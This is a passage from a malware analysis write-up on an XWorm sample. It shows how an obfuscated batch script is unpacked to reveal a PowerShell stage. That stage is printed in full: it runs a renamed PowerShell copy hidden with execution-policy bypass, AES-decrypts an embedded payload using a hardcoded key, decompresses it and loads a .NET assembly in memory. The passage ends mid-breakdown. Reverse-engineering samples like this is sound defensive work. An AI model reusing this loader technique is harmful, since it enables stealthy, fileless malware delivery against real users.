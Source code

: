 ## XWorm - Batch Deobfuscation - .NET Loader

This sample starts off with some batch & PowerShell deobfuscation, revealing a .NET loader which we can debug using DnSpy and module breakpoints to reveal the payload.

SHA 256: e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f

## Initial Batch Script

This sample starts with an obfuscated batch script which looks like the following:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/15a2ff27-e269-40d7-96fc-586d9093245b)

From the fourth line onward we can see that many set commands are taking place, we also see a lot of commented-out strings which don't seem to make a lot of sense right now, denoted by the ::

Towards the end of the script, it appears that those variables are being called and executed:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/56b8f863-19b1-42db-951a-7bfcd968584e)

A quick way to make sense of this script is by commenting out the lines that clear the terminal and exit, and adding "echo" commands before the variables are called.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/be36953d-e183-4e48-9ff8-f861c071a512)

Now if we execute this new script, we get the following:

``` powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')
('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine);foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4); break; }; };$_CASH_tFaoL =
[System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '');$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL);$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged;$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC;$_CASH_pFavC.Padding =
[System.Security.Cryptography.PaddingMode]::PKCS7;$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=');$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==');$_CASH_traoF =
$_CASH_pFavC.CreateDecryptor();$_CASH_epUJg = $_CASH_traoF.TransformFinalBlock($_CASH_epUJg, 0, $_CASH_epUJg.Length);$_CASH_traoF.Dispose();$_CASH_pFavC.Dispose();$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg);$_CASH_DLltN = New-Object System.IO.MemoryStream;$_CASH_VzeZp = New-Object
System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress);$_CASH_VzeZp.CopyTo($_CASH_DLltN);$_CASH_VzeZp.Dispose();$_CASH_SjOoQ.Dispose();$_CASH_DLltN.Dispose();$_CASH_epUJg = $_CASH_DLltN.ToArray();$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')
($_CASH_epUJg);$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint;$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```
We can make this a bit easier to read by replacing all semi-colons with new lines:

```powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine)
foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4)
 break
 }
 }
$_CASH_tFaoL = [System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '')
$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL)
$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged
$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC
$_CASH_pFavC.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=')
$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==')
$_CASH_traoF = $_CASH_pFavC.CreateDecryptor()
$_CASH_epUJg = $_CASH_traoF.TransformFinalBlock($_CASH_epUJg, 0, $_CASH_epUJg.Length)
$_CASH_traoF.Dispose()
$_CASH_pFavC.Dispose()
$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg)
$_CASH_DLltN = New-Object System.IO.MemoryStream
$_CASH_VzeZp = New-Object System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress)
$_CASH_VzeZp.CopyTo($_CASH_DLltN)
$_CASH_VzeZp.Dispose()
$_CASH_SjOoQ.Dispose()
$_CASH_DLltN.Dispose()
$_CASH_epUJg = $_CASH_DLltN.ToArray()
$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($_CASH_epUJg)
$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint
$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```

**Command Line Breakdown:**
```powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
```
It appears that the script is firstly copying PowerShell and moving it to the same directory & filename as the executed script, changing directory to that directory, and executing the newly copied binary of PowerShell.
```powershell
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')
('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine)
```
A command is executed, with the reversed string of "ReadAllText" and it reads the initial batch script.
```powershell
foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4)
```
From the initial script, it is looking for instances that start with ":: @" and takes everything from the 4th substring onwards, ie, all the content after the "::@"
